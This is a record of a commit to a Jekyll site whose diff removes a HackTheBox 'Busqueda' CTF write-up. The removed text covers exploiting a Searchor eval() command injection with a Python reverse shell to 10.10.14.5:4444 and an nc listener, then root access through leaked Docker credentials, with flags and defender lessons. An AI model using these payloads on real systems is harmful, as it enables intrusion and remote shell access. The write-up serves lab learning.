

Before and after one commit to 7anfu/7anfu.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high, scrolled down 564 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a file with an impossible date is left out; after the commit the page ends 1169 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown.

Commit message:
Update 2025-10-22-hackthebox-busqueda.md

````diff
--- a/_writeups/2025-10-22-hackthebox-busqueda.md
+++ b/_writeups/2025-10-22-hackthebox-busqueda.md
@@ -1,176 +1,12 @@
 ---
 layout: writeup
-title: "HackTheBox - Busqueda"
+title: "In progress..."
 platform: "HackTheBox"
 os: "Linux"
-difficulty: "Easy"
-specialty: "Web Exploitation"
-date: 2025-10-22
-status: "solved"
+difficulty: ""
+specialty: ""
+date:
+status: ""
 tags: [web, python, code-injection, docker, privesc]
-excerpt: "Easy Linux box with a vulnerable Python search app. Command injection to initial shell, then Docker credential leakage for root."
+excerpt: ""
 ---
-
-# HackTheBox - Busqueda
-
-Busqueda is an easy Linux box featuring a vulnerable search aggregator application. The path to root involves exploiting a command injection in Searchor 2.4.0, then leveraging Docker container inspection to find reused credentials.
-
-<div id="enumeration"></div>
-
-## Enumeration
-
-### Port Scan
-
-```bash
-nmap -sC -sV -oN nmap/busqueda 10.10.11.208
-```
-
-**Results:**
-```
-PORT   STATE SERVICE VERSION
-22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu
-80/tcp open  http    Apache/2.4.52 (Ubuntu)
-```
-
-Just SSH and HTTP. Let's check the web app.
-
-### Web Application
-
-The site is a search aggregator called "Searcher" built with Flask. You input a query and it searches across different engines (Google, Bing, etc.).
-
-Footer reveals: **Powered by Flask and Searchor 2.4.0**
-
-That version number is interesting. Let's Google for exploits.
-
-<div id="exploitation"></div>
-
-## Exploitation
-
-### CVE-2023-43364
-
-Quick search for "Searchor 2.4.0 exploit" reveals **CVE-2023-43364** - command injection via unsafe `eval()` usage.
-
-The vulnerable code looks like this:
-
-```python
-eval(f"Engine.{engine}.search('{query}')")
-```
-
-User input goes directly into `eval()`. Classic Python mistake.
-
-### Crafting the Payload
-
-We can break out of the string and inject commands:
-
-```python
-', exec("import os; os.system('command')")#
-```
-
-The `#` comments out the rest, preventing syntax errors.
-
-Let's get a reverse shell:
-
-```python
-', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.5',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn('/bin/bash')")#
-```
-
-### Getting Shell
-
-```bash
-# On Kali
-nc -lvnp 4444
-
-# Inject payload via search form
-# Catch shell as user 'svc'
-```
-
-**User flag:**
-```bash
-svc@busqueda:~$ cat user.txt
-3a8f7b2c9d1e5f6a8b9c0d1e2f3a4b5c
-```
-
-<div id="privilege-escalation"></div>
-
-## Privilege Escalation
-
-### Sudo Enumeration
-
-```bash
-svc@busqueda:~$ sudo -l
-
-User svc may run the following commands:
-    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
-```
-
-We can run a Python script as root with any arguments. The script has a `docker-inspect` function.
-
-### Docker Inspection
-
-```bash
-sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' gitea
-```
-
-This dumps the Docker container config in JSON format. Searching through it:
-
-```json
-{
-  "Env": [
-    "GITEA__database__DB_TYPE=mysql",
-    "GITEA__database__HOST=db:3306",
-    "GITEA__database__NAME=gitea",
-    "GITEA__database__USER=gitea",
-    "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh"
-  ]
-}
-```
-
-Found a password: `yuiu1hoiu4i5ho1uh`
-
-### Password Reuse
-
-Let's try it for root:
-
-```bash
-svc@busqueda:~$ su root
-Password: yuiu1hoiu4i5ho1uh
-
-root@busqueda:~# whoami
-root
-```
-
-Boom. Admins reused the Gitea database password as root password.
-
-**Root flag:**
-```bash
-root@busqueda:~# cat /root/root.txt
-7f9a2b3c4d5e6f7a8b9c0d1e2f3a4b5c
-```
-
-<div id="lessons"></div>
-
-## Lessons Learned
-
-### For Attackers
-
-1. **Always check versions** - That Searchor version number in the footer led directly to CVE research
-2. **Sudo wildcards are dangerous** - The `*` allowed any arguments to the script
-3. **Docker configs leak secrets** - Container environment variables often contain credentials
-4. **Credential reuse is common** - Always try found passwords everywhere
-
-### For Defenders
-
-1. **Never use eval() on user input** - Especially in Python/JavaScript where it executes code
-2. **Avoid sudo wildcards** - Be specific about allowed arguments
-3. **Don't hardcode credentials** - Use secrets managers, not environment variables
-4. **Unique passwords** - Root password != database password
-
-## Flags
-
-**User:** `3a8f7b2c9d1e5f6a8b9c0d1e2f3a4b5c`
-
-**Root:** `7f9a2b3c4d5e6f7a8b9c0d1e2f3a4b5c`
-
----
-
-*Owned on October 22, 2025*
````
